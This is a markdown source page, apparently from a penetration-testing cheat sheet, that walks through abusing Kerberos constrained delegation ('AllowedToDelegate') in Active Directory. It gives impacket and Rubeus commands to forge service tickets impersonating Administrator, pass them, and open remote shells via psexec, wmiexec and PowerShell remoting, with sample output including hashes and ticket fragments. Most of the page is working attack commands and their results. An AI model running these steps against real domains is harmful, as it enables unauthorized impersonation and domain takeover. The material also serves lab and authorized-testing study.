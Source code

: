 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "AllowedToDelegate", "Active Directory", "Windows", "AddAllowedtoAct", "AllowedToAct"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Pre-Check

```console
# With password
impacket-findDelegation '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console
# With hash
impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC_IP> -hashes :<HASH> -no-pass
```

#### 2. Get a Service Ticket

```console
sudo ntpdate -s <DC_IP> && impacket-getST -dc-ip <DC_IP> -spn '<SERVICE>/<TARGET_DOMAIN>' -hashes :<HASH> -impersonate '<IMPERSONATE_USER>' '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :80d4ea8c2d5ccfd1ebac5bd732ece5e4 -impersonate Administrator 'intelligence.htb/svc_int'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

#### 3. Convert Ticket \[Optional\]

```console
python3 rubeustoccache.py '<BASE64_TICKET>' '<IMPERSONATE_USER>.kirbi' '<IMPERSONATE_USER>.ccache'
```

```console {class="sample-code"}
python3 ~/Tools/RubeusToCcache/rubeustoccache.py 'doIG9DCCBv ---[SNIP]--- 9yZS5jb20=' 'administrator.kirbi' 'administrator.ccache'
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to administrator.kirbi
[*] Writing converted .ccache file to administrator.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=administrator.ccache
```

#### 4. Remote

```console
export KRB5CCNAME='<CCACHE_FILE>'
```

```console {class="sample-code"}
$ export KRB5CCNAME=Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

```console
# psexec
sudo ntpdate -s <DC_IP> && impacket-psexec '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ impacket-psexec client.example.com/administrator@dc01.client.example.com -k -no-pass
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Requesting shares on dc01.client.example.com.....
[*] Found writable share ADMIN$
[*] Uploading file MOjmtmkC.exe
[*] Opening SVCManager on dc01.client.example.com.....
[*] Creating service NTdz on dc01.client.example.com.....
[*] Starting service NTdz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```console
# wmiexec
sudo ntpdate -s <DC_IP> && wmiexec.py '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Add Delegate \[Optional\]

```console
# Import powerview
. .\PowerView.ps1
```

```console
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount <USER>
```

#### 2. Check

```console
# Check msds-allowedtodelegateto
Get-NetUser -TrustedToAuth
```

{{< tab set1-2 tab1 active >}}Hash{{< /tab >}}{{< tab set1-2 tab2 >}}Kerberos{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

#### 3. Calculate Hash

```console
.\rubeus.exe hash /password:'<PASSWORD>' /user:'<USER>' /domain:<DOMAIN>
```

#### 4. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console {class="sample-code"}
.\rubeus.exe s4u /user:'MS01$' /rc4:7ddf32e17a6ac5ce04a8ecbf782ca509 /impersonateuser:administrator /msdsspn:"cifs/dc01.client.example.com" /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: S4U

[*] Using rc4_hmac hash: 7ddf32e17a6ac5ce04a8ecbf782ca509
[*] Building AS-REQ (w/ preauth) for: 'CLIENT.EXAMPLE.COM\MS01$'
[*] Using domain controller: 172.16.1.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFljCCBZKg ---[SNIP]--- hPUkUuQ09N

[*] Action: S4U

[*] Building S4U2self request for: 'MS01$@CLIENT.EXAMPLE.COM'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2self request to 172.16.1.2:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'MS01$@CLIENT.EXAMPLE.COM'
[*] base64(ticket.kirbi):

      doIGGjCCBh ---[SNIP]--- cbBU1TMDIk

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.client.example.com'
[*] Building S4U2proxy request for service: 'cifs/dc01.client.example.com'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2proxy request to domain controller 172.16.1.2:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.client.example.com':

      doIG9DCCBv ---[SNIP]--- 9yZS5jb20=
[+] Ticket successfully imported!
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}
{{< tabcontent set1-2 tab2 >}}

#### 3. Request a TGT

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

#### 4. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}

#### 5. Remote

```console
# Check
klist
```

```console
# Create session
$session = new-pssession -computername <COMPUTER_NAME>
```

```console
# Execute cmd
invoke-command $session { <CMD> }
```

{{< /tabcontent >}}
